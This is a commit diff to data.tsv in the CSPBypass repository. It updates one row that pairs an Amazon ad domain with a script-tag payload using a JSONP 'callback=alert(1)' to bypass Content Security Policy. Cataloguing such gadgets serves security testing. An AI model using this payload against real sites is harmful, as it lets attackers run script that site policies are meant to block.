

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; removed rows and columns are numbered as before the commit, all else as after; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
update amazon domain to aax-us-east-retail-direct

```diff
--- a/data.tsv
+++ b/data.tsv
-row 6: aax-eu.amazon.com | <script src="https://aax-eu.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
+row 6: aax-us-east-retail-direct | <script src="https://aax-us-east-retail-direct.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
```
